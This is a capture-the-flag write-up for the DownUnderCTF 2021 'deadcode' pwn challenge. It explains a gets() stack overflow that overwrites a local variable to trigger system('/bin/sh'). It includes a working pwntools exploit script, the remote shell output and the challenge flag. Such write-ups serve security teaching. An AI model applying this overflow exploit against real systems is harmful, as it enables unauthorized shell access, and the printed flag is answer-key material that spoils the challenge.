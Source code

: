 # DownUnderCTF 2021

## deadcode

> 100
> 
> I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.
> 
> Author: xXl33t_h@x0rXx
>
> `nc pwn-2021.duc.tf 31916`
>
> [`deadcode`](deadcode)

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _variable-overwrite_


## Summary

Baby BOF.  Overwrite variable.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Partial RELRO = GOT overwrite; No PIE = Easy ROP; No canary = Easy BOF.

None of this matters for this challenge.


### Decompile with Ghidra   

```c
undefined8 main(void)
{
  char local_28 [24];
  long local_10;
  
  local_10 = 0;
  buffer_init();
  puts("\nI\'m developing this new application in C, I\'ve setup some code for the new features but it\'s not (a)live yet.");
  puts("\nWhat features would you like to see in my app?");
  gets(local_28);
  if (local_10 == 0xdeadc0de) {
    puts("\n\nMaybe this code isn\'t so dead...");
    system("/bin/sh");
  }
  return 0;
}
```

`gets` is the vuln.  To get a shell just set `local_10` to `0xdeadc0de`.  Ghidra makes this easy for you.  `local_28` is `0x28` bytes from the return address on the stack.  `local_10`, is, you guessed it, `0x10` bytes from the return address on the stack.  So to overwrite `local_10`, send `0x28 - 0x10` bytes of garbage followed by `0xdeadcode` (as `long`).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./deadcode')

if args.REMOTE:
    p = remote('pwn-2021.duc.tf', 31916)
else:
    p = process(binary.path)

payload  = b''
payload += (0x28 - 0x10) * b'A'
payload += p64(0xdeadc0de)

p.sendlineafter(b'?\n',payload)
p.interactive()
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2021/deadcode/deadcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to pwn-2021.duc.tf on port 31916: Done
[*] Switching to interactive mode


Maybe this code isn't so dead...
$ cat flag.txt
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}
```
